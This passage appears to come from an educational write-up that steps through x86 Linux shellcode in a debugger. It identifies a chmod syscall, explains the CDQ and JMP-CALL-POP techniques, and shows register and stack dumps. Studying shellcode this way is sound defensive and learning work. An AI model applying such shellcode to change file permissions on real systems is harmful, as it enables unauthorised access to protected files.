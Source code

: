 ## CDQ let EDX your wing-man
Since EAX is mostly used for SYSCALLS, and most SYSCALLS don't set the flag bit in EAX, extending the sign bit comes in handy if you want to use a register as a NULL terminator for strings or if you want to use a zeroed out register, in this case EDX will be your wing-man. 

Stepping through instructions, we find that our beloved EAX register is set to 0xf, 15 in decimal. 
We can identify the syscall using the following command: 
```
dipsy@ubuntu:~$ cat /usr/include/i386-linux-gnu/asm/unistd_32.h | grep 15
#define __NR_chmod   15
``` 
Lets clarify what parameters need to be passed for this syscall using the manual; 
The prototype of the function is as follows:
``` 
int chmod(const char *pathname, mode_t mode);
``` 
With that in mind, EBX will contain the path-name for the file that we wish to change its permissions and ECX will hold the permissions themselves. 
Lets step into the instructions and dive in assembly world. By now, EDX has been pushed into the stack to act as a NULL terminator for the pathname. After that, JMP,CALL-POP technique is used, to push the pathname to the stack. 
``` 
[----------------------------------registers-----------------------]
EAX: 0xf 
EBX: 0xb7fc6ff4 --> 0x1a5d7c 
ECX: 0x0 
EDX: 0x0 
ESI: 0x0 
EDI: 0x804a048 --> 0x652f0000 ('')
EBP: 0xbffff728 --> 0x0 
ESP: 0xbffff6e8 --> 0x0 
EIP: 0x804a045 --> 0xde8
EFLAGS: 0x286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------]
   0x804a041 <shellcode+1>: push   0xf
   0x804a043 <shellcode+3>: pop    eax
   0x804a044 <shellcode+4>: push   edx
=> 0x804a045 <shellcode+5>: call   0x804a057 <shellcode+23>
   0x804a04a <shellcode+10>: das    
   0x804a04b <shellcode+11>: gs
   0x804a04c <shellcode+12>: je     0x804a0b1
   0x804a04e <shellcode+14>: das
Guessed arguments:
arg[0]: 0x0 
arg[1]: 0x8048430 (<main+76>: mov    eax,0x0)
[------------------------------------stack-------------------------]
0000| 0xbffff6e8 --> 0x0 
0004| 0xbffff6ec --> 0x8048430 (<main+76>: mov    eax,0x0)
0008| 0xbffff6f0 --> 0x8048510 ("Shellcode Length:  %d\n")
0012| 0xbffff6f4 --> 0x7 
0016| 0xbffff6f8 --> 0x8049ff4 --> 0x8049f28 --> 0x1 
0020| 0xbffff6fc --> 0x8048461 (<__libc_csu_init+33>: lea    eax,[ebx-0xe0])
0024| 0xbffff700 --> 0xffffffff 
0028| 0xbffff704 --> 0xb7e54196 (add    ebx,0x172e5e)
[------------------------------------------------------------------]
Legend: code, data, rodata, value
0x0804a045 in shellcode ()
``` 
As expected, the pathname that has been set earlier is pushed into the stack and then popped to EBX. 
``` 
[----------------------------------registers-----------------------]
EAX: 0xf 
EBX: 0xb7fc6ff4 --> 0x1a5d7c 
```